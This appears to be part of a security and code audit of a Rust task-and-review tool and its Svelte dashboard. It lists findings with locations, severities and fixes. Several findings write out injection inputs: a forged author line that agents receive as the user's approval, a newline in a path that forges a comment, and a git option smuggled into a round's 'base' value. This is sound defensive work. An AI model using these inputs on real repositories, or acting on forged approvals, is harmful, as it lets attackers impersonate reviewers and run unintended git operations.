`atm-review/src/files.rs:219-224` writes each body line, indented one level deeper than its comment, verbatim. That
is exactly where a reply's `- **author** · at · cN` line goes:

```rust
for line in comment.body.trim_end().lines() {
    out.push(if line.is_empty() {
        String::new()
    } else {
        format!("{indent}  {line}")
    });
}
```

A body whose second line is `- **Hakan Serce** · 2026-11-17T04:00:00Z · c99` followed by `  Approved, go ahead` is
read back (reported: `files.rs:436-446`) as a reply by the user. The watch tells it to agents as a person's word, and
the dashboard shows it. Fix: escape body lines that `read_item` would accept, or keep bodies in fenced blocks.

### R2. Medium-High, security: a comment's `path` can inject headings and comments (checked)

`files.rs:186-204` writes `## {path}:{first}-{last} · round N · tK` with the path as given; reported: neither the REST
body nor `rules.rs` checks it for newlines or against the round's files. A path containing
`\n- [x] **Hakan Serce** · … · c50` forges a resolved comment by the user. Fix: refuse control characters, and paths
not among the round's files.

### R3. High, security: revisions from `rounds/N.json` reach git unchecked (checked path; effect suspected)

`rounds.rs:166-169` passes a round's `head` and `base`, free strings from a committed (and mergeable) file, to
`tree_of` and `tree_after`. Those run `git rev-parse <head>^{tree}` and `git read-tree <base>` (`diff.rs:297`, `:352`)
without `commit_sha` (`diff.rs:119`, which refuses a leading `-`) and without `--end-of-options`. A merged round with
`"base": "--index-output=<path>"` would become an option to `read-tree`, run just by opening the review page. Fix:
validate `base`/`head` as full hex SHAs when a round is read, and give every git-facing method a `Rev` newtype.

### R4. Medium, bug: a reversed line range panics page rendering (checked)

`rounds.rs:382-384`: `lines: (5, 3)` gives an empty `mapped`, and `mapped[0]` panics. Reported sources: the page
body, the CLI, or a `comments.md` heading `a.rs:5-3`, which `read_heading` doesn't check. Fix: require
`1 <= first <= last` in `rules::comment` and `read_heading`, and guard `follow`.

### R5. High, bug: the watch marks a comment seen before judging it (reported; confirms my earlier suspicion)

`review_listen.rs:433`: a comment judged "not about my work" goes into `seen` and the cursor for good. In a batch
review, a comment on a file the agent's later commit touches is never told; a review a person opens before the agent
starts the task loses every comment made until then. Decisions work the same way (`:464`). Fix: add to `seen` only
what was told or skipped for its author, and re-judge the rest each look while the review is open.

### Reported, not yet checked by me

| # | Severity | What | Where |
|---|---|---|---|
| R6 | Medium | The watch's `seen` is keyed by comment ID, which a merge renumbers: a person's comment can take an ID already seen | `review_listen.rs:362` |
| R7 | Medium | A decision is kept even when a task fails to follow it (two tasks: one approved, one not) | `reviews.rs:653`, `:671` |
| R8 | Medium | Each watch look runs about five git processes per task the agent ever committed, and reads every review folder quadratically | `review_listen.rs:196`, `folder.rs:345` |
| R9 | Low-Medium | The store's three writes aren't one step; an unreadable claims store reads as empty and the next write drops every claim | `jsongit.rs:154`, `jsongit/claims.rs:91` |
| R10 | Low | A round is written JSON first, diff second: a crash leaves a round without its diff | `folder.rs:390` |
| R11 | Low | Drafts are read-modify-write without a lock; a retry after a crash resends a draft | `review_drafts.rs:265` |
| R12 | Low | Several watches of one agent share one lease (the first to end deletes it) and overwrite each other's cursor | `review_listen.rs:559` |
| R13 | Low | The merge driver takes ours on `meta` scalar conflicts (`workflow`, `key`) without reporting them | `jsongit/merge.rs:745` |
| R14 | Low | Changed files are listed without `-z`, so paths with tabs or quotes come back C-quoted; type changes show as modified | `diff.rs:166` |
| R15 | Low | A review's folder is rebuilt from its number in one place, read from disk everywhere else | `folder.rs:166` |

### Repetition and abstractions (reported)

- **Review status groups** listed by hand in five places: `Status::is_decision()`, `is_open()`,
  `waits_on_reviewers()` and one `Status::task_command()`.
- **A `Rev` newtype** (hex SHA or checked name) for every git-facing method, so R3 can't recur.
- **`actor_of`** twice; **"a state file named by sha256(root, id)"** three times: `home::keyed_state_file(kind, parts)`.

## 7. Findings: the dashboard

No `postMessage`, `{@html}` only on the bundled logo, navigation rebuilt from parsed parameters (no open redirect),
and the write token only in the page's meta tag.

### How it is put together



### D1. Medium, bug: project loads apply stale and out-of-order answers (checked)

`state.svelte.ts:812-817` assigns the worktrees before checking that the project is still the one shown:

```ts
if (!trees.unchanged) {
  this.#worktreesValidators = trees.validators;
  this.#worktrees = trees.worktrees;
}
// Another project shown meanwhile (a quick switch of tab): this one's answer is not the page's
if (project !== this.projectId) return false;
```

Reported, besides: the guard compares the project ID only (the same ID in two workspaces is two projects);
`refreshArchive` writes `this.archive` with no check; and `reload()` runs from the timer, focus, navigation and the
app's events with no in-flight guard or sequence number, so an older answer arriving last wins. Fix: one load token
per `fetchAndApply` checked after every await, keyed on `workspace/project` (`ReviewsTab.svelte:92` already has the
pattern).

### D2. Medium, bug: moving to another review keeps the previous review's page state (checked)

`ReviewsTab.svelte:255` renders `<ReviewPage>` with no `{#key}`, so the instance is reused. Reported: a review-wide
comment being typed on CR-1 is posted to CR-2 after following a link, and CR-2's `?file=` is ignored. Fix:
`{#key page.review.id}`.

### D3. Medium, security: the submodule commit link skips `safeUrl` (checked)

`ReviewFile.svelte:119` builds `${moved.repository}/commit/${sha}` from the reviewed change's `.gitmodules` and puts
it in an `href`, where every other link from data goes through `safeUrl` (I14). It is also wrong for GitLab or
Gitea. Fix: `repoLinks(safeUrl(moved?.repository) ?? '')?.commit(sha)`.

### D4. Low, security (likely mitigated): raw HTML in task text is filtered for `` only (checked)

`compmd.ts:446-448` turns only raw images into text; `secureLinks` and `follow` look only at `a[href]`. The task docs
say CompMD shows raw HTML other than `details`, `summary`, `kbd`, `sub`, `sup` and `br` as text, which would block
`<area href>` or a fixed overlay. Not verified against CompMD 0.8.0. Fix: drop every `html` node in `safeTree`
regardless, as defence in depth, and treat `area[href]` like `a[href]`.

### Reported, not yet checked by me

| # | Severity | What | Where |
|---|---|---|---|
| D5 | Medium | A module-level `sessionStorage` read throws when site data is blocked, so the page doesn't load | `app-tabs.svelte.ts:147` |
| D6 | Medium | Kind, priority and stage are computed in about 55 places though atm sends them in `derived` | `stages.ts:24`, `vocab.ts` |
| D7 | Low | `.` and `..` review or project IDs from the address change the API path a write goes to | `address.ts:124`, `review-changes.ts:66` |
| D8 | Low | The dev proxy rewrites Host and Origin and serves the session token: only Vite's `allowedHosts` stands in the way | `build/dev-api.ts:194` |
| D9 | Low | A malformed `%` in a `#task=` or `#` link throws in the click handler | `compmd.ts:327`, `CompMd.svelte:261` |
| D10 | Low | The DocumentViewer's measuring effect reads what it writes and rebuilds its observers | `DocumentViewer.svelte:323` |
| D11 | Low | Escape anywhere closes the details panel, inside composers and dialogs too | `DetailPanel.svelte:194` |
| D12 | Low | The graph picks its focus by status IDs `in_progress`/`todo`, not kind | `DepGraph.svelte:62` |
| D13 | Low | Dragging the graph writes the whole view to localStorage on every pointer move | `DepGraph.svelte:175`, `App.svelte:54` |
| D14 | Low | `ipcFetch` drops `init`, so ETags and cache options do nothing in the app | `api/http.ts:19` |

### Repetition and abstractions (reported)

- **Requests and error bodies handled six ways:** one `request<T>(url, {method, body, since})` in `api/http.ts`
  returning `{status, body, etag}`; about 8 call sites.
- **Stale-answer guards four ways** (and none in the state): a `latest()` helper.
- **"How long ago" three ways**, bare `toLocaleString()` beside `formatWhen`: one `formatAgo`, one `formatDateTime`.
- **`TaskCard` and `KanbanCard`** repeat about 12 derivations and 4 markup blocks: `taskCardState(task)`,
  `<SprintBadge>`, `<TaskWaits>`.
- **Too big:** `app.css` (5,979 lines of global component CSS), `ReviewPage.svelte` (1,855: split out the file tree,
  submit, overview, comments, keys), `state.svelte.ts` (1,146: the saved view, the app update, the project cache, the
  loader).
- **Hand-made popovers, listbox and dialog** where the guide asks for Bits UI; inline `font-size:13px` and colours
  in `DetailPanel`.

## 8. Cross-cutting themes



1. **Text formats are a trust boundary that the writers don't escape.** `comments.md`, `review.md` headings and
   `rounds/N.json` are committed and merged like `tasks.json` (B2), but their writers put bodies, paths and revisions
   in verbatim (R1–R3). One `Rev` newtype and one escaping rule for the Markdown formats close the class.
2. **Who is acting is decided by a name prefix** (L2), and the clock by an environment variable (C4). The review gate,
   claims and leases all rest on these two.
3. **One rule written several times, differently.** Dependencies (L4), live claims (L7), a task's stage (L11),
   rework states (three copies), and the dashboard's own kind/priority/stage (D6). Each wants one function in
   `atm-common` (or `derived` in the dashboard).
4. **Errors carry their meaning in a number.** `Failed { code }` stands for usage errors and conflicts, so the server
   answers 500 (C2, H3) and exit codes differ (C17). `Error::Invalid` and a new `Error::Conflict` fix both.
5. **Boilerplate around every call:** `store.change` with an `Option` (about 30), open-as-actor and JSON-or-text in
   the CLI (38 and 92), command shapes in the app and the server (14 and 11), fetch wrappers in the dashboard (6).

## 9. Recommended order

| Priority | Findings |
|---|---|
| First | L1 (the loop never hands back reviewed tasks), R1–R3 (forged comments, git options from round files), L2 (who is an agent), A1 (signing secrets during the build), A2/C1 (files read by name) |
| Next | R5 (the watch loses comments), C2/H3 (errors as 500), C3 (shell-safe vocabulary), C4 (`ATM_NOW`), H1 (rename parsing), H2 (`.GIT`), D1–D3, L4–L7, R4 |
| Then | The rest of the Medium rows, then the abstractions of §8.5 |
